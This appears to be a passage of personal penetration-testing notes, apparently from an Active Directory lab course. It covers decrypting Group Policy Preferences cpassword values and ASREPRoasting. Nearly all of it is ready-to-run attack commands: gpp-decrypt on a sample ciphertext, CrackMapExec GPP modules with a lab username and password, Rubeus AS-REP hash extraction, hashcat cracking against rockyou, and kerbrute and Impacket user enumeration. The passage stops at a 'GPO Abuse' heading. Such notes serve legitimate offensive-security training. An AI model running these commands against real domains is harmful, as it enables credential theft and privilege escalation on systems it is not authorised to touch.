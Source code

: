 cpassword attribute contains passwords encypted with AES 256. The key is [online](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN)

Was patching in [2014](https://support.microsoft.com/en-us/topic/ms14-025-vulnerability-in-group-policy-preferences-could-allow-elevation-of-privilege-may-13-2014-60734e15-af79-26ca-ea53-8cd617073c30)

Can decrypt password with:
```shell
gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE
```

Locating and Retrieving GPP passwords with CME
```shell
crackmapexec smb -L | grep gpp
```

CME gpp_autologin 
```shell
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin
```

#### ASREPRoasting
Possible to gain the TGT for any account that has the `Do not requre pre-authentication` [setting](https://www.tenable.com/blog/how-to-stop-the-kerberos-pre-authentication-attack-in-active-directory) enabled.
Authentication server reply is encrypted with user accounts password. The DC decrypts this to validate correct password.

With the dont require enabled an attacker can request authentication data

View account with Dont Require Kerberos Pre Auth:
![[AD Kerberos Preauth.png]]

```powershell
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```
Retrieve AS-REP Format
```powershell
 .\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
```
Cracking hash
```shell
hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt 
```
##### Alternate Methods
```shell
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 
```
Hunt for users with kerbroas PreAuth not required
```shell
Impacket-GetNPUsers INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users 
```
#### GPO Abuse
GPO misconfigurations can be abused to perform the following attacks:
